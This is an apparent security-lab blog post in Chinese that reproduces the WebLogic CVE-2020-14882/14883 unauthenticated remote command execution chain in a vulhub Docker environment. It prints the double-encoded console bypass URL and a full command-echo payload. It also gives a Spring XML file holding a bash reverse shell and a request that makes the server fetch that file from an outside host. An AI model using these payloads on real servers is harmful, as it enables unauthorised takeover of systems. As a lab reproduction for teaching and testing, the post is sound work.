





# CVE-2020-14882&14883weblogic 未授权命令执行漏洞复现 - 合天网安实验室 - 博客园

> 原文：[`www.cnblogs.com/hetianlab/p/14139548.html`](https://www.cnblogs.com/hetianlab/p/14139548.html)

本文首发于“合天网安实验”   作者： 浅墨

**本文涉及靶场知识点-**

CVE-2020-14882&14883 weblogic 未授权访问漏洞

[实验:CVE-2020-14882&14883 weblogic 未授权访问漏洞(合天网安实验室)](https://www.hetianlab.com/expc.do?w=exp_ass&ec=ECIDfdd4-97c8-4e32-89b7-df58dd102e4c&pk_campaign=bokeyuan-wemedia) 

**简介**

WebLogic 是美国 Oracle 公司的主要产品之一，是商业市场上主要的 J2EE 应用服务器软件，也是世界上第一个成功商业化的 J2EE 应用服务器，在 Java 应用服务器中有非常广泛的部署和应用。

**概述**

10 月 21 日，Oracle 官方发布数百个组件的高危漏洞公告。其中组合利用 CVE-2020-14882/CVE-2020-14883 可使未经授权的攻击者绕过 WebLogic 后台登录等限制，最终远程执行代码接管 WebLogic 服务器，利用难度极低，风险极大。

此处漏洞均存在于 WebLogic 的控制台中。该组件为 WebLogic 全版本自带组件，并且该漏洞通过 HTTP 协议进行利用。CVE-2020-14882 允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883 允许后台任意用户通过 HTTP 协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个 GET 请求在远程 Weblogic 服务器上以未授权的任意用户身份执行命令。

**影响版本**

```
WebLogic 10.3.6.0.0
WebLogic 12.1.3.0.0
WebLogic 12.2.1.3.0
WebLogic 12.2.1.4.0
WebLogic 14.1.1.0.0
```

**环境搭建** 

此处利用 vulhub 的环境进行复现，新建 docker-compose.yml

```
version: '2' services:
 weblogic:
   image: vulhub/weblogic:12.2.1.3-2018 ports: - "7001:7001"
```

执行以下命令会下载镜像并以此镜像启动一个容器，映射的端口为 7001

```
docker-compose up -d
```

权限绕过漏洞（CVE-2020-14882）复现： 

因为 CVE-2020-14882 未授权访问漏洞是绕过管理控制台权限访问后台，所以需要存在 console 控制台，打开浏览器访问：

http://ip:port/console



  从上一步结果发现是存在管理控制台的，在正常访问 console 后台时会让我们输入账号密码。通过未授权访问，则可以直接绕过验证登录后台，漏洞

URL：/console/css/%252e%252e%252fconsole.portal

未授权访问控制台页面：



正常输入账号密码登录控制台页面：



通过对比可以看到通过未授权访问的后台与正常登陆的后台差异，由于权限不足，缺少部署等功能，无法安装应用，所以也无法通过后台部署 war 包等方式直接获取权限。“%252E%252E%252F”为二次 url 编码的“../”，通过这个就可以实现穿越路径未授权访问相关管理后台。


后台任意命令执行漏洞（CVE-2020-14883）复现:

利用方式一

```
com.tangosol.coherence.mvel2.sh.ShellSession
```

但此利用方法只能在 Weblogic 12.2.1 及以上版本利用，因为 10.3.6 并不存在 com.tangosol.coherence.mvel2.sh.ShellSession 类。

在 12.2.1.3 版本执行"id"命令 burpsuite

```
GET /console/css/%252e%252e%252fconsolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt(); HTTP/1.1 Host: 192.168.74.141:7001 Pragma: no-cache
cmd: id
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7,en-US;q=0.6
Cookie: ADMINCONSOLESESSION=ufkDQ2w_WXPmMBVQWCpxVBrNdKxp4L58RhydPTssNxYAmgnYP-4Y!-326883263; ADMINCONSOLESESSION=lGPJf1JPnXR7pG1qZzw0xXmwGtMQcPpJ0GVJrg0pv0LGCS6LdH0g!1599365627
Connection: close
```

回显 payload：

```
/console/css/%252e%252e%252fconsolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt();
```



在 10.3.6 版本执行会报错



利用方式二

```
com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext
```

这是一种更为通杀的方法，最早在 CVE-2019-2725 被提出，对于所有 Weblogic 版本均有效。

首先，我们需要构造一个 XML 文件，并将其保存在 Weblogic 可以访问到的服务器上，这里是执行一个反弹 shell 的操作，如

http://example.com/rce.xml：

```
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>/bin/bash</value>
        <value>-c</value>
        <value><![CDATA[bash -i >& /dev/tcp/ip/1234 0>&1]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

nc 监听，然后执行一个 get 请求：

```
http://192.168.74.141:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://139.9.198.30/rce.xml")
```

nc 监听的端口得到反弹 shell


经过测试，该方法在 12.2.1.3 以及 10.3.6 版本都可以执行

**漏洞修复**

目前 Oracle 官方已发布了最新针对该漏洞的补丁，请受影响用户及时下载补丁程序并安装更新。Oracle 官方补丁需要用户持有正版软件的许可账号，使用该账号登陆 https://support.oracle.com 后，可以下载最新补丁。

**参考链接**

```
https://github.com/vulhub/vulhub/blob/master/weblogic/CVE-2020-14882/README.zh-cn.md
https://github.com/jas502n/CVE-2020-14882
```